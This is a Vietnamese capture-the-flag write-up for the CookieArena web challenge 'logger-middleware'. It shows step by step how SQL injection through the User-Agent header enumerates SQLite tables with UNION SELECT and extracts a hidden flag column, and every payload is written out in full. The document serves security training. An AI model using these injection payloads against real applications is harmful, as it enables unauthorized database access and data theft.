






https://battle.cookiearena.org/challenges/web/logger-middleware

1.	Kiểm tra xem trang web có hoạt động với giá trị bình thường hay không 
- Với payload:
  - User-Agent: aaa 
  - trang web hiển thị bình thường

2.	Nhập giá trị bất thường xem web có validate giá trị không
- Với payload: 
  - User-Agent: aaa' 
  - trang web trả về nội dung:

- Thấy được syntax của sql là (‘a’) với 6 giá trị trả về
- Xem ta có thể tiêm lệnh comment không, ta thực hiện với payload: 
  - User-Agent: aaa',null,null,null,null)--

oke vậy là các giá trị đã được điền với giá trị null

3.	Thử với UNION để lấy được nhiều tên bảng chứa trong database hiện tại
- Payload: aaa',null,null,null,null) UNION SELECT 1,name,2,3,4,5 FROM sqlite_master WHERE type='table'-- 
  - giá trị name hoàn toàn có thể đứng ở vị trí bất kì trong các giá trị từ 1,2,..,6
  

- Ta có 2 bảng là logger và flag vậy ta cần lấy các giá trị trong bảng flag
- Thử với payload: aaa',null,null,null,null) UNION SELECT 1,name,2,sql,4,5 FROM sqlite_master WHERE type='table'--
  - vì sql có chứa câu lệnh CREAT TABLE giúp ta xem bảng có chứa cột nào

Vậy bảng flag chứa một cột secr3t_flag có khả năng cao chứa giá trị flag bên trong

- Vậy bảng flag chứa một cột secr3t_flag có khả năng cao chứa giá trị flag bên trong
4.	Lấy FLAG
- Payload: aaa',null,null,null,null) UNION SELECT 1, secr3t_flag,3,4,5,6 FROM flag--   

